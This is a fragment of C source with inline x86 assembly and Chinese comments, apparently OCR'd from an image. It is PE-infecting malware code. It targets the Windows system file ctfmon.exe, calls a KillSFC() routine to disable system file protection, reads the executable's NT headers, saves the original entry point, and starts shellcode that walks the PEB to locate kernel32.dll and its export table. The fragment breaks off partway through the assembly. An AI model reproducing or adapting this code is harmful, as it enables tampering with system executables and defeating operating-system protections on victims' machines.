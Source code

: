 IMAGE\_SECTION\_HEADER SecInject;

FILE\* pFile;

char systemPath\[MAX\_PATH\];

GetSystemDirectoryA(systemPath,sizeof(systemPath));

char szFileName\[MAX\_PATH\] = \"\\\\ctfmon.exe\";

strcat(systemPath,szFileName);

strcpy(szFileName,systemPath);

KillSFC();

if((pFile=fopen(szFileName,\"rb+\"))==NULL)//打开文件失败则退出

{

printf(\"打开文件失败\\n\");

return 0;

}

fseek(pFile,0x3c,0);

DWORD pNT;

fread(&pNT,sizeof(DWORD),1,pFile);

fseek(pFile,pNT,SEEK\_SET);

fread(&ntHeader,sizeof(IMAGE\_NT\_HEADERS),1,pFile); //读取NT头

//保存旧入口地址

int sectionNum = ntHeader.FileHeader.NumberOfSections;

int OldEntryPoint = ntHeader.OptionalHeader.AddressOfEntryPoint;

goto shellend;

\_\_asm

{

shell: PUSHAD

MOV EAX,DWORD PTR FS:\[30H\] ;FS:\[30H\]指向PEB

MOV EAX,DWORD PTR \[EAX+0CH\] ;获取PEB\_LDR\_DATA结构的指针

MOV EAX,DWORD PTR \[EAX+1CH\] ;获取LDR\_MODULE链表表首结点的inInitializeOrderModuleList成员的指针

MOV EAX,DWORD PTR \[EAX\] ;LDR\_MODULE链表第二个结点的inInitializeOrderModuleList成员的指针

MOV EAX,DWORD PTR \[EAX+08H\] ;inInitializeOrderModuleList偏移8h便得到Kernel32.dll的模块基址

MOV EBP,EAX ; 将Kernel32.dll模块基址地址放至kernel中

MOV EAX,DWORD PTR \[EAX+3CH\] ;指向IMAGE\_NT\_HEADERS

MOV EAX,DWORD PTR \[EBP+EAX+120\] ;指向导出表
